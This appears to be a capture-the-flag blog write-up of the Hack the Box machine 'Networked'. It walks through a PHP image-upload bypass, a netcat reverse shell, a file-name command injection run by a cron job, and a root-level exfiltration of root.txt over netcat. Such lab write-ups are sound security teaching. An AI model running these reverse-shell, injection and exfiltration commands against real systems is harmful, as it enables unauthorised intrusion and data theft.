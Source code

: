 +++
author = "Nick"
categories = ["basic", "cron", "CTF", "enumeration", "Linux", "netcat", "reverse shell", "web services", "PHP", "bash"]
date = 2019-11-16T16:47:06Z
description = ""
draft = false
thumbnail = "/images/2019/08/info-5.png"
slug = "hack-the-box-networked"
summary = "Today we are going to go though the easy box, Networked. Lets get into it!"
tags = ["basic", "cron", "CTF", "enumeration", "Linux", "netcat", "reverse shell", "web services", "PHP", "bash"]
title = "Hack the Box - Networked"
url = "/hack-the-box-networked"

+++


Today we are going to go though the easy box, Networked. This box was pretty unstable since it has just released a few days ago. Anyway, lets get into it!

You guessed it, we are starting it off with our standard nmap scan: ```nmap -sC -sV -oA networked 10.10.10.146```. Our results come back pretty basic. A denied port 443, ssh and http.

![](/images/2019/08/image-114.png)

We head over to see what website the box is serving and we see a standard web page.

![](/images/2019/08/image-92.png)

Source doesn't have much of anything aside from a hint of an uploader later on.

![](/images/2019/08/image-93.png)

So those pages could be active but not yet added to this page listing. We'll continue our enumeration with gobuster to see if any of the common results come back.

![](/images/2019/08/image-94.png)

We do indeed see some commonly named items. backup and uploads are good starts. We head over to backup and we find a backup.tar.

![](/images/2019/08/image-95.png)

We download the backup.tar and unzip it

![](/images/2019/08/image-96.png)

These .php files are all presumably live on our current host. So when we try to head over to photos.php, we do indeed have some content.

![](/images/2019/08/image-97.png)

Now all we have to do is check the source of these pages to see what is happening. Essentially upload.php is only letting us upload images types, change the underscores for periods and setting permissions.

![](/images/2019/08/image-99.png)

The lib.php has some interesting code for validating the file type. It also has a small snippet for validating a filename for an 'attack'.

![](/images/2019/08/image-100.png)

So our goal here is to simply upload a reverse shell and have it execute. The first thing we'll do is copy our [standard reverse php shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) file into our working directory. We'll then make a copy under the name 10_10_15_222.php.png since we know that the page with audit the filename and type. Now we'll modify the script accordingly.

![](/images/2019/08/image-101.png)

We also know that the lib.php is checking our file type. We can easily bypass this by adding GIF89a; at the header of our reverse shell. You can see other forms of file upload bypassing [here](https://github.com/xapax/security/blob/master/bypass_image_upload.md).

![](/images/2019/08/image-102.png)

Next we start up a Netcat session listing on our defined port. Then upload the file to the server.

![](/images/2019/08/image-103.png)

Next thing we know...

![](/images/2019/08/image-98.png)

We have a shell. Poking around a bit here doesn't have much. We see there is only 1 user, guly, when we look at /home. So lets see if we can LinEnum the machine. Head over to /tmp and download our file. In this case, wget is not on the machine, so we use ```curl -o lin.sh http://10.10.15.227/LinEnum.sh``` this time to get our file.

![](/images/2019/08/image-104.png)

We don't see much. We do see a file called check_attack.php in Guly's home directory. As we look at the file, we see what looks to be an easy command injection on line 30.

![](/images/2019/08/image-106.png)

We also have crontab.guly as well.

![](/images/2019/08/image-107.png)

So it seems that every 3 minutes, php is called to run check_attack.php. With these two combined we can create a netcat connection back to our machine!

We will head over to our upload directory. Here we will create a file. ```touch "; nc 10.10.15.227 9999 -c bash```. This will create a file that is called by the check_attack.php file. In this case, it will concatinate the ```rm -f``` command and execute our command, in this case, nc to our machine.

![](/images/2019/08/image-105.png)

Now that we have a shell as user, lets snag the flag! We upgrade our shell and start enumeration. We see that guly can run the following as root.

![](/images/2019/08/image-108.png)

When we look at the contents of this file, we see the following:

![](/images/2019/08/image-109.png)

So now that we know we can command inject in this script we can use it to get the root flag. Trying to cat /root/root.txt won't work out for us because of our regex expression list doesn't support a period. Now we could escape around it but it's actually easier to make a small shell script and call it.

![](/images/2019/08/image-111.png)

So here we echo our command into a file by using ```echo "cat /root/root.txt | nc 10.10.15.227 6969" > file```. The reason we are piping it to netcat is because I want the file on my attacking machine. So on our machine we start netcat listening on port 6969: ```nc -lvnp 6969 > root.txt``` then export it to root.txt.

Now all we do is call the same shell script as before but point it to our newly created script file:

![](/images/2019/08/image-113.png)

And we see our Netcat light up and receive the file.

![](/images/2019/08/image-112.png)

We have the flag!

Now we can use this same approach to do plenty of other things, this was just the fastest way to the flag. We could make a script to add ourselves to the sudoers file, copy ssh keys, create ssh keys or anything else because we are executing this command as root.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

